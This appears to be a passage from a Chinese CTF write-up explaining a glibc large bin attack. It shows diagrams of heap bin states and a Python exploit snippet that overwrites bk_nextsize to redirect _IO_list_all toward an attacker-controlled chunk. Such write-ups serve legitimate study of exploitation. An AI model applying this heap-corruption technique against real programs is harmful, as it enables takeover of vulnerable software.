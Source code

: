先 alloc 两个 `0x548` 大小的 chunk，分别为 chunk_1、chunk_2.  

为了获得 libc 偏移地址，首先需要 free chunk_1 并使其进入 large bin 中，获取了 libc 地址后再向 chunk_1 中写入 payload 使得其 `bk_nextsize` 指向 `_IO_list_all - 0x20`. 操作后的 large bin 状况如下所示

```
chunk_1
fd_nextsize: 	0x0
bk_nextsize:	_IO_list_all - 0x20

_IO_list_all - 0x20
fd_nextsize: 	_IO_2_1_stderr_
bk_nextsize:	0x0
```

如上所示，此时 `_IO_list_all - 0x20`.`fd_nextsize` 不受影响. 因此需要 alloc 第三个堆: chunk_3，该堆大小必须小于 chunk_1.  
当 chunk_3 处于 unsorted bin 且马上分配至 large bin 时，chunk_3.`fd_nextsize` 和 chunk_3.`bk_nextsize` 将会重指向自 chunk_1，且 `_IO_list_all - 0x20` 也会重整. 如下所示

```
chunk_1
fd_nextsize: 	0x0
bk_nextsize:	chunk_3

chunk_3
fd_nextsize: 	chunk_1
bk_nextsize:	_IO_list_all - 0x20

_IO_list_all - 0x20
fd_nextsize: 	chunk_3
bk_nextsize:	0x0
```

而后需要 alloc 一个大小为 chunk_3 的空间，这样就能够抽走 large bin 中的 chunk_3，使得 `_IO_list_all - 0x20`.`fd_nextsize` 为 chunk_1，如下所示

```
chunk_1
fd_nextsize: 	0x0
bk_nextsize:	_IO_list_all - 0x20

_IO_list_all - 0x20
fd_nextsize: 	chunk_1
bk_nextsize:	0x0
```

根据以上原理，写出代码

```py

add_com(0x548)  # chunk_1
add_com(0x548)  # chunk_2
add_com(0x538)  # chunk_3
del_com(1)      # free chunk_1 to unsorted bin
add_com(0x558)  # free chunk_1 to large bin
del_com(3)      # free chunk_3 to unsorted bin

edit_com(1, payload[16:])

add_com(0x568)  # free chunk_3 to large bin
add_com(0x538)  # alloc chunk_3

```
